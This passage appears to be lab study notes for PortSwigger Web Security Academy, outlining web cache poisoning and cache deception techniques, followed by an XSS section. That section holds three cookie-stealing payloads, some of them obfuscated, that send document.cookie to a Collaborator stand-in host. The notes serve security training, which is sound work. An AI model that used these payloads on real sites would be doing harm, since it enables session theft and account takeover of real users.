    - Web cache poisoning via an unkeyed query parameter

   - Parameter cloaking

   - Web cache poisoning via a fat GET request

   - URL normalization (This is a normal XSS vuln that wouldn't execute because the browser encodes the malicious URL but the server doesn't decode it, So we take advantage of the cache URL normalization to execute the XSS)

   - Cache key injection 

   - Internal cache poisoning

   - Web cache poisoning via ambiguous requests


### * Web Cache Deception
   - Exploiting path mapping for web cache deception ( "/my-account/abc.js" is understood by the origin server as  “/my-account” but by the cache server as cachable “/my-account/abc.js” )

   - Exploiting path delimiters for web cache deception  ( “/my-account;abc.js” is understood by the origin server as  “/my-account” but by the cache server as cachable “ /my-account;abc.js”. Server must see ; as a delimeter but the cache shouldn't see it as such for the attack to succeed. )

   - Exploiting origin server normalization for web cache deception

   - Exploiting cache server normalization for web cache deception

   - Exploiting exact-match cache rules for web cache deception


## **_XSS_**
### * Search Field
Tip: The majority of lab payloads aim for firing alert() or print() functions. However in case we want to retrieve the victim's cookies instead, we have to adjust our payloads accordingly. Portswigger has another amazing guide on how to obfusacate your payloads in case some special chars were blocked by the server.
https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings

Some prefer to encode the retreived cookie to avoid any unintentional tampering during the retrieval process. However, this is not always necessary. Whether you decide to encode the retrieved cookie or not tho, remember to always URL encode your entire payload as a final step before delivering it to the victim to avoid any pitfalls.
Some payloads that may come in handy.
```
<img src='x' onerror='let cookie = document.cookie;let encodedCookie = encodeURIComponent(cookie);fetch("https://COLLAB-ID.oastify.com?data="+  encodedCookie)'>
<script>document.location="https://LAB-ID.web-security-academy.net/?SearchTerm="-fetch('https://COLLAB-ID\u002eoastify\u002ecom?data='+encodeURIComponent(document['cookie']))}//"</script>
<script>document.location="https://LAB-ID.web-security-academy.net/?find="-eval.call`${'fetch\x28\x27https://COLLAB-ID.oastify.com?data=\x27+encodeURIComponent\x28document.cookie\x29\x29'}`}//"</script>
```


   - XSS with body tag and onresize event possible
